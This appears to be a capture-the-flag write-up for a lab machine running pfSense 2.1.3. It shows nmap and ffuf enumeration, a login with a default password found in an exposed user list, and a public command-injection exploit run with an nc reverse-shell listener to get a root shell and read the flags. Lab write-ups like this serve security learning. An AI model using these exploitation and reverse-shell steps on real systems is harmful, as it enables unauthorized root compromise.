




Target: 10.10.10.60

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.60

Nmap scan report for 10.10.10.60
Host is up (0.039s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ -ic

themes                  [Status: 301, Size: 0, Words: 1, Lines: 1]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
includes                [Status: 301, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 301, Size: 0, Words: 1, Lines: 1]
classes                 [Status: 301, Size: 0, Words: 1, Lines: 1]
widgets                 [Status: 301, Size: 0, Words: 1, Lines: 1]
tree                    [Status: 301, Size: 0, Words: 1, Lines: 1]
shortcuts               [Status: 301, Size: 0, Words: 1, Lines: 1]
installer               [Status: 301, Size: 0, Words: 1, Lines: 1]
wizards                 [Status: 301, Size: 0, Words: 1, Lines: 1]
csrf                    [Status: 301, Size: 0, Words: 1, Lines: 1]
filebrowser             [Status: 301, Size: 0, Words: 1, Lines: 1]
```

checking 10.10.10.60



enumerating txt files ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://10.10.10.60/FUZZ.txt -ic

changelog               [Status: 200, Size: 271, Words: 35, Lines: 10]
system-users            [Status: 200, Size: 106, Words: 9, Lines: 7]
```

checking changelog.txt



checking system-users.txt



logging in with found username `rohit` and default password `pfsense`



### Findings:Looking for attack vectors

Search for exploits for pfsense and its version.


## Foothold:

searching for pfsense 2.1.3 exploits
```
$ searchsploit pfsense 2.1.3

----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                     | php/webapps/43560.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ searchsploit -m php/webapps/43560.py

  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

running the exploit
```
$ python3 43560.py --rhost 10.10.10.60 --lhost <ip> --lport 9001 --username rohit --password pfsense

CSRF token obtained
Running exploit...
Exploit completed
```

```
# id

uid=0(root) gid=0(wheel) groups=0(wheel)
```

```
# cd /home/rohit

# cat user.txt

<redacted>
```

```
# cat /root/root.txt

<redacted>
```
